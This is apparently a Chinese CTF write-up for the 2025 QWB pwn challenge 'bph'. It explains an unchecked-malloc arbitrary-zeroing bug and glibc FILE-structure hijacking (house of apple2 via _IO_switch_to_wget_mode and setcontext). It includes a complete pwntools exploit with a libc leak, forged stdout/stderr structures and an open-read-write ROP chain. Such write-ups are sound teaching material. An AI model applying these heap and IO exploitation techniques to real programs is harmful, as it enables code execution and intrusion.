 ```yaml
---
title: 2025qwb_bph
date: 2025-10-22 16:47:03
categories: 2025-qwb
tags: houseof
---
```


> 最近真的很少打CTF，被暴打的没啥信心了，而且很多题逆向太多了，懒得看

# 漏洞点

漏洞出现在申请堆块时没有检查malloc是否成功，而malloc失败固定返回0
这里填size的时候可以填写任意地址，就可以得到`0 + 任意地址 - `置零

![set_zero](./2025qwb-bph/set_zero.png)

还有通过前面的read函数可以配合printf泄漏libc地址或者是其他地址
这里决定打libc，所以拿libc地址

# 利用手法

这里的置零要给`_IO_2_1_stdin_->file->_IO_buf_base`用
这样可以在fgets得到一个向`_IO_2_1_stdin_`写的机会
因为fgets中有一个`read(fp, fp->_IO_buf_base, fp->_IO_buf_end - fp->_IO_buf_base);`

![fgets_read](./2025qwb-bph/fgets_read.png)

然后再重复就可以完全控制_IO_buf_base，将其指向`_IO_2_1_stdout_`，打IO
所以我们就可以获得一个可控rdi的任意地址跳转(这部分属于传统apple2)

由于高版本的`setcontext`变成了使用rdx，我们需要一个将控制rdi转换为rdx的办法
这里可以走`_IO_switch_to_wget_mode`来将控制rdx，原因不仅是这个函数可以帮我们用rdi控rdx
更重要的原因是它间接属于`_IO_wfile_jumps`的跳表中(它被`IO_wfile_seekoff`调用)

另外`_IO_wfile_seekoff`中还对第四个参数`mode`进行检查，要求`mode`不为零才可以

以及可以看到需要满足
`fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base || _IO_in_put_mode (fp)`
才可以执行到_IO_switch_to_wget_mode，这里我没有特意调整也满足了，不过可以留意一下

![IO_wfile_seekoff](./2025qwb-bph/IO_wfile_seekoff.png)

最终实现ORW读flag

# exp
复现的时候搞了一个简单的[filep.py](https://github.com/dbgbgtf1/useful-stuff/blob/main/houseofapple2/filep.py)用来方便取IO结构体成员偏移
```python
from pwn import *
from filep import Filep

context(
    terminal=['kitty'],
    os='linux',
    arch='amd64',
    log_level='debug',
)
libc = ELF('./libc.so.6')

io = remote('0.0.0.0', 70)
io.sendafter(b'token: ', b'a' * 0x28)
io.recvuntil(b'a' * 0x28)
libc.address = u64(io.recv(0x6).ljust(0x8, b'\x00')) - 0xADDAE
print(hex(libc.address))

stdin = Filep(libc.address + 0x2038E0)
stdout = Filep(libc.address + 0x2045C0)
stderr = Filep(libc.address + 0x2044E0)

io.sendlineafter(b'Choice', b'1')
pause()
io.sendlineafter(b'Size', (str(stdin._IO_buf_base.address + 1)).encode())
pause()
io.sendafter(b'Content', b'a')

# stderr is for rop
# stdout is for IO_hack
pause()
io.send(p64(stderr.address - 2) * 4 + p64(stdout.address + 0xE8))
pause()
io.sendlineafter(b'Choice', b'')
# 在这里非常的奇怪，我必须把回车和上面的输出分开，否则fgets会遇到奇怪的bug然后卡死

setcontext = libc.address + 0x4A99D
io_wfile_jumps = libc.address + 0x202228
io_switch_to_wget_mode = libc.address + 0x8AFC0

rax = libc.address + 0xdd237
rdi = libc.address + 0x10F78B
rsi = libc.address + 0x110A7D
rcx = libc.address + 0xA877E
rdx = libc.address + 0xB503C
syscall = libc.address + 0x98FB6

fake_stderr = flat(
    {
        0x18 - 0x10: 0x0,
        0x20 - 0x10: p64(stderr.address - 0x10),
        0x88 - 0x10: p64(0x200),
        0xA0 - 0x10: p64(stdout.address + 0x50),
        0xA8 - 0x10: p64(rdi),
        0xE0 - 0x10: p64(stdout.address),
    },
    filler=b'\x00',
    length=0xE0,
)

fake_stdout = flat(
    {
        0x0: 0xDEADBEEF,
        0x18: p64(setcontext),
        0x20: b'flag' + b'\x00' * 4,
        0x50: p64(0x0),
        0x58: p64(rsi),
        0x60: p64(stdout.address + 0x70),
        0x68: p64(syscall),
        stdout._wide_data.offset : p64(stderr.address - 0x10),
        stdout.vtable.offset: p64(io_wfile_jumps + 0x10),
    },
    filler=b'\x00',
)

pause()
io.sendlineafter(b'Choice', b'2')
io.sendlineafter(b'Index: ', b'1\n' + fake_stderr + fake_stdout)

flag_addr = stdout.address + 0x20

pause()
rop = flat(
    rdi, -100,
    rsi, flag_addr,
    rdx, 0x0, 0x0, 0x0, 0x0, 0x0,
    rax, 0x101,
    rcx, 0x0,
    syscall,

    rdi, 0x3,
    rsi, flag_addr,
    rdx, 0x100, 0x0, 0x0, 0x0, 0x0,
    rax, 0x0,
    syscall,

    rdi, 0x1,
    rsi, flag_addr,
    rdx, 0x100, 0x0, 0x0, 0x0, 0x0,
    rax, 0x1,
    syscall,
)
io.send(rop)

io.interactive()
```
